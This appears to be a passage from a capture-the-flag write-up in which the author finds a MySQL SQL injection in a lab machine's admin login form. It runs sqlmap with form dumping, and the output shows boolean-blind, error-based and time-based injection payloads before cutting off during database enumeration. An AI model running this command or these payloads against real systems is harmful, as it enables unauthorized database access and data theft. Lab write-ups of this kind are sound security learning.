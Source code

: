 # Web Exploitation

### sqlmap
* Putting a `'` in the login form gives us this error: `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1`
	* Thus, we know this is using MySQL

`sqlmap -u http://10.10.41.142/administrator.php --forms --dump --dbms=mysql`
```
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.5.3#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:36:51 /2021-03-26/

[23:36:51] [INFO] testing connection to the target URL
[23:36:52] [INFO] searching for forms
[#1] form:
POST http://10.10.41.142/administrator.php
POST data: username=&password=
do you want to test this form? [Y/n/q] 
> Y
Edit POST data [default: username=&password=] (Warning: blank fields detected): 
do you want to fill blank fields with random values? [Y/n] Y
[23:37:02] [INFO] using '/root/.local/share/sqlmap/output/results-03262021_1137pm.csv' as the CSV results file in multiple targets mode
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=NIDZ' RLIKE (SELECT (CASE WHEN (9938=9938) THEN 0x4e49445a ELSE 0x28 END))-- ETdI&password=

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: username=NIDZ' AND GTID_SUBSET(CONCAT(0x716a626b71,(SELECT (ELT(8142=8142,1))),0x717a627871),8142)-- Izjp&password=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=NIDZ' AND (SELECT 8478 FROM (SELECT(SLEEP(5)))HKLn)-- vjtj&password=
---
do you want to exploit this SQL injection? [Y/n] Y
[23:37:04] [INFO] testing MySQL
[23:37:04] [INFO] confirming MySQL
[23:37:04] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.0
[23:37:04] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[23:37:04] [INFO] fetching current database
[23:37:04] [INFO] resumed: 'users'
```